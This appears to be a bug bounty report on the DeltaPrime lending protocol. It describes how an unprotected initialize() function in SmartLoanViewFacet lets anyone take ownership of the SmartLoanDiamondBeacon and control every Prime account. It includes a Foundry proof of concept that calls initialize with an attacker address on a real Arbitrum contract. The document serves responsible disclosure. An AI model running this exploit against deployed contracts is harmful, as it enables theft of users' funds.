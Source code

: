*_Contract hijack/Missing initialize call in SmartLoamViewFacet.sol_*
___

**Bug Severity: High**

**Target:**
https://github.com/DeltaPrimeLabs/deltaprime-primeloans

---

**Vulnerability Details:**

DeltaPrime maintains all users’ prime accounts in the pattern of “Proxy+implementation” where each prime account is a proxy pointing to the implementation contract. The implementation contract, i.e., “SmartLoanDiamondBeacon”, adheres to the EIP-2535 standard (Diamond) and can only be managed by the protocol owner. This means that if a malicious user can manage to become the owner of the "SmartLoanDiamondBeacon" contract, he can gain control over all users' Prime accounts.

I did indeed discover such a vulnerability. this vulnerability involves a facet contract called “SmartLoanViewFacet”. This contract includes an “initialize()” function, originally designed to initialize the owner for a new prime account. However, we noticed that a hacker can directly call the “SmartLoanViewFacet::initialize()” function to hijack the owner of the “SmartLoanDiamondBeacon” contract.

With ownership of the “SmartLoanDiamondBeacon” contract, the hacker can arbitrarily modify the functionalities of the implementation for all prime accounts, enabling the hacker to steal all the protocol funds, including the funds in all DeltaPrime lending pools and all Prime Accounts. The estimated total loss is >$50M. For example, the hacker can add a “freeBorrow()” function to borrow all the lending pool funds without any solvency check.

Furthermore, once the owner of the “SmartLoanDiamondBeacon” contract is hijacked, there is no way for DeltaPrime to take it back or mitigate the exploit, which means the protocol is totally controlled by the hacker.



**Vulnerability Code:**

https://github.com/DeltaPrimeLabs/deltaprime-primeloans/blob/dev/main/contracts/facets/SmartLoanViewFacet.sol#L42


**Proof of concept (POC):**

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISmartLoanDiamondBeacon {
    function initialize(address owner) external;
}

contract DeltaPrimePoC is Test {
    address constant SmartLoanDiamondBeacon = 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c;
    address constant maliciousOwner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4; // Put any attacker address

    function setUp() public {
        vm.createSelectFork(vm.envString("ARB_RPC_URL"), 234980496);
    }

    function test_Initialize_Targets() public {
           ISmartLoanDiamondBeacon(SmartLoanDiamondBeacon).initialize(maliciousOwner);
        }
    }



***PoC result:***

![DeltaPrimePoCResult](https://github.com/user-attachments/assets/3436464d-6d50-4440-b657-2adb23f9dbb5)


